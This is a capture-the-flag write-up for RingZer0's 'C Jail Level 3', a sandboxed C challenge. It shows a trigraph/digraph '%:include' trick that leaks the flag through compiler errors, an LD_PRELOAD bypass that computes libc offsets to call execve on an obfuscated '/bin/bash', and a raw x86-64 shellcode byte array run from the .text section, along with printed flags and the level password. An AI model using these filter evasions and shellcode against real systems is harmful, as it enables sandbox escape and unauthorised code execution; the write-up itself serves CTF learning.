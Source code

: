 # Level 3
```shell
ssh level3@challenges.ringzer0team.com -p 10230 
password: FLAG-0416ewrN2o058901Aqf4w9hsyH0dfqzd
```
![](https://i.imgur.com/Xa81bnR.png)

```shell
RingZer0 Team Online CTF

C Jail Level 3:
Current user is uid=1002(level3) gid=1002(level3) groups=1002(level3)

Flag is located at /home/level3/flag.txt

Challenge instruction:
-----------------------------

Type DONE to compile and execute your binary.


Your payload will be compiled that way:
gcc -O3 -Wall -fstack-protector-all -fPIE bin.c -o bin

Your payload will be executed that way:
LD_PRELOAD=./override.so ./bin

You only control the content of a function.

Here's the default includes
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>

You CANNOT use the "asm,open,read,mmap,brk,sh,#,sys,\x" keyword

-----------------------------
Your C code:
```

All usable functions in past chanllenge should be denied this time, `#include`, `#define`, `Hex`shellcode will not work either.

I should look for an "old function" which could do the same.

At [https://www.gnu.org/software/libc/manual/html_node/Function-Index.html](https://www.gnu.org/software/libc/manual/html_node/Function-Index.html) you can find all libc functions available. But I had to do some filtering:

* since the open and read keywords weren't allowed, I wasn't able to create any file streams (FILE) or file descriptors* (int fd)
that means that all functions taking a `FILE *` pointer or a file descriptor `int fd` weren't suitable
* the exec* family (execl, execlp, execle, execv, execvp, execvpe) was also not a good ideea since these functions were disabled by the `LD_PRELOAD` override
* `malloc` was also disabled by the override so no functions using malloc internally could be used

Unfortunately, they all dead.

Maybe I should find some way to bypass new restrict: `#`.

Therefore I can include `flag.txt` to make compiler output the error messages which should contain the source code of `flag.txt`.

At least, I can try to include some vulnarable lib?

Finally, BLOG.DORNEA.NU said that there might be a way to accomplish "#include" without using "#". The hint was called [Digraphs/Trigraphs](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs). Especially for the C language, the preprocessor is able to replace digraphs/trigraphs by their [single-character equivalents before any other processing](https://en.wikipedia.org/wiki/Digraphs_and_trigraphs#C). This way I was able to make the error message:

| digraphs | equivalents | 
| -------- | -------- |
|<:|	[|
|:>|	]|
|<%|	{|
|%>|	}|
|%:|	#|


```c
Your C code:
%:include "/home/level3/flag.txt"
DONE

-----------------------------
Compiling your code.
In file included from /tmp/1b9dd64e-70af-40cf-95b5-d4ef0593247c/bin.c:13:0:
/home/level3/flag.txt: In function ‘_24f9c1e3682289873677f3f7f79ea8df’:
/home/level3/flag.txt:1:1: error: ‘FLAG’ undeclared (first use in this function)
 FLAG-BE79t326XS03122r5A4206tv395P64WB
 ^
/home/level3/flag.txt:1:1: note: each undeclared identifier is reported only once for each function it appears in
/home/level3/flag.txt:1:6: error: ‘BE79t326XS03122r5A4206tv395P64WB’ undeclared (first use in this function)
 FLAG-BE79t326XS03122r5A4206tv395P64WB
      ^
/tmp/1b9dd64e-70af-40cf-95b5-d4ef0593247c/bin.c:16:1: error: expected ‘;’ before ‘}’ token
 }
 ^
Your code does not compile.
```
![](https://i.imgur.com/qQoSSHh.png)

There we go: `FLAG-BE79t326XS03122r5A4206tv395P64WB`


## Other solutions

Bypass `LD_PRELOAD`
As I've noticed some functions (among these also `execve()`) were disabled due to the `LD_PRELOAD` override. Some [smart guy](https://ringzer0team.com/profile/2319) managed it to find in memory the real libc functions and thus bypassing the `LD_PRELOAD` override. Using [libcdb.com](http://libcdb.com/) you can identify the exact version of the used libc version by finding out the addresses of some functions (in his case `puts` and `printf`):

```c
Compiling your code.
Executing your code.
puts: 0x7ffe36166e30
printf: 0x7ffe3614b400
```

After finding the exact libc version, he/she downloaded the file and had a look at it:

```shell
readelf -s libc-2.19_15.so | grep puts
   184: 000000000006fe30   399 FUNC    GLOBAL DEFAULT   12 _IO_puts@@GLIBC_2.2.5
   400: 000000000006fe30   399 FUNC    WEAK   DEFAULT   12 puts@@GLIBC_2.2.5      <--- the one we have
   471: 00000000000fef10  1031 FUNC    GLOBAL DEFAULT   12 putspent@@GLIBC_2.2.5      
   644: 0000000000100900   555 FUNC    GLOBAL DEFAULT   12 putsgent@@GLIBC_2.10
  1089: 000000000006e730   303 FUNC    WEAK   DEFAULT   12 fputs@@GLIBC_2.2.5
  1597: 000000000006e730   303 FUNC    GLOBAL DEFAULT   12 _IO_fputs@@GLIBC_2.2.5
  2199: 0000000000073a80    95 FUNC    GLOBAL DEFAULT   12 fputs_unlocked@@GLIBC_2.2.5

greadelf -s libc-2.19_15.so | grep execve
   987: 00000000000c1360   200 FUNC    GLOBAL DEFAULT   12 fexecve@@GLIBC_2.2.5
  1418: 00000000000c1330    34 FUNC    WEAK   DEFAULT   12 execve@@GLIBC_2.2.5    <--- the one we want
```  

By calculating the offset between `puts` and `execve` he/she could then build following code:

```c
int (*real_execve)(const char *, char *const *, char * const *) = (void*)puts + <OFFSET>;
char program[] = {47, 98, 105, 110, 47, 98, 97, 115, 104, 0};
real_execve(program, 0, 0);
```

## Execute shellcode
Since I was initially trying to execute shellcode, I was very curios about any similar solutions. [killer2](https://ringzer0team.com/profile/5732) had a very elegant solution:

```c
// Place the shellcode inside the .text section
static const char __attribute__((section (".text"))) code[] = { 72,129,236,255,15,0,0,72,49,255,72,141,52,36,106,50,90,72,49,192,15,5,72,135,254,72,49,246,106,2,88,15,5,72,141,52,36,106,100,90,72,151,72,49,192,15,5,106,1,95,72,137,194,106,1,88,15,5,72,129,196,255,15,0,0,195 };

// Run the shellcode
(*(void(*)())code)();
```
